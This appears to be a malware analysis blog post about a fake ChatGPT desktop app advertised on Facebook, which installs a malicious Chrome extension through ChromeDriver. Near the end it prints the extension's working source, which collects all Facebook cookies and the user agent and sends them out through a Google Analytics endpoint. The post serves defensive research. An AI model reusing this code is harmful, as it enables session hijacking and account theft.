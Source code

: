 ```yaml
---
title: "ChatGPT_Campaign"
classes: wide
header:
  teaser: /assets/images/malware-analysis/ChatGPT_Campaign/add.png
ribbon: DodgerBlue
description: "Abusing ChatGPT in a Mass Campaign in social media Adds ..."
categories:
  - Malware Analysis
toc: true
---
```


# OverView

In the morning I was serving Facebook until this ad appeared on my timeline.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/add.png)

This will catch the eyes of any security analyst due to the obvious fake domain and the intended wrong spelling of important words and also the general way of writing it especially this "400 trials" part.

So I went into this page and found things that made me more suspicious, here is it.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/about.png)

This page contains a `Gmail` email for communication and a local `Egyption`number It has a bad reputation from the comments and changed its name and working field many times.

# Initial Analysis

So with all that noticed I decided to look at their Software to check what is happening there.

I downloaded the provided compressed file and extracted it then extracted the `msi` files from the msi installer.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/extract.png)

and found that this is a `.NET` binary.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/file.png)

I checked virus total also and found this is flagged only in six vendors and no sandboxes.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/vt.png)

# Behavioral Analysis

I decided to fire up the app and as I expected the response was just by opening "chrome" and popping up a message saying the following...

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/error.png)

But actually, there is more I noticed happening.

I found a new process called `chromedriver.exe` running on my device.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/new.png)

I also found a new extension added to my chrome browser.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/ext.png)

This extension is coming from a `js` file inside the malware folders

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/malext.png)

# Code Analysis

Here we have three pieces to be examined the "initial sample, executed file, and the extension"

## Initial sample

The malware starts by killing the chrome process and his other dropped file "if running" then executing this "autogetcookies" function then showing the msg box that we saw, which means all the work will be in that function "autogetcookies"

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/start.png)

And here is the code for it.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/chromedrivers.png)

Actually what happens here is just registering a `ChromeDriver` which will be run with a hidden command prompt with the same profile for the user that ran the malware, the driver that gets registered is the second stage file that we saw running in our behavioral analysis.

There are three different drivers shipped with the malware and the malware chooses one of them based on the chrome version installed.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/var.png)

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/version.png)

If you don't know what is ChromeDrivers It's just a way to simulate the user interaction with the browser using the code.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/chat.png)

And the malware adds finally the malicious Extension just before executing the driver.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/addext.png)

## Chrome Driver

By doing some research I found that the file is an open-source project and by downloading the original file from its source and comparing hashes I found that they are the same and the file is clean.

![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/hash.png) ![Error loading](/assets/images/malware-analysis/ChatGPT_Campaign/org.png)

## Browser Extension

After some beautifying and renaming here is the code for the extension installed.

```js
const ANALYTICS_PATH = 'https://www.google-analytics.com/collect';
async function postData(_0x7e64x3 = '', _0x7e64x4 = {}) {
    const _0x7e64x5 = await fetch(_0x7e64x3, {
        method: 'POST',
        mode: 'no-cors',
        cache: 'no-cache',
        credentials: 'same-origin',
        headers: {
            '\x43\x6F\x6E\x74\x65\x6E\x74\x2D\x54\x79\x70\x65': 'application/x-www-form-urlencoded'
        },
        redirect: 'follow',
        referrerPolicy: 'no-referrer',
        body: _0x7e64x4
    })
}
var Facebook_cookies = [];
const getsss = () => {
    chrome['cookies']['getAll']({
        url: 'https://facebook.com'
    }, (_0x7e64x4) => {
        Facebook_cookies = _0x7e64x4['map']((_0x7e64x8) => {
            return `${''}${_0x7e64x8['name']}${'='}${_0x7e64x8['value']}${''}`
        })['join'](';');
        var Collected_data = new URLSearchParams();
        let _0x7e64xa = (Math['random']() + 1).toString(36)['substring'](3);
        Collected_data['append']('v', 1);
        Collected_data['append']('tid', 'UA-244628508-1');
        Collected_data['append']('cid', '35009a79-1a05-49d7-b876-2b' + _0x7e64xa);
        Collected_data['append']('t', 'pageview');
        Collected_data['append']('dp', btoa(`${''}${Facebook_cookies}${'|'}${navigator['userAgent']}${'|gpt'}`));
        postData(ANALYTICS_PATH, Collected_data)
    })
};
chrome['runtime']['onInstalled']['addListener'](function(_0x7e64xb) {
    getsss()
})
```

This extension will simply grab all the `Cookies` for `Facebook` and then send them to a google analytics server.
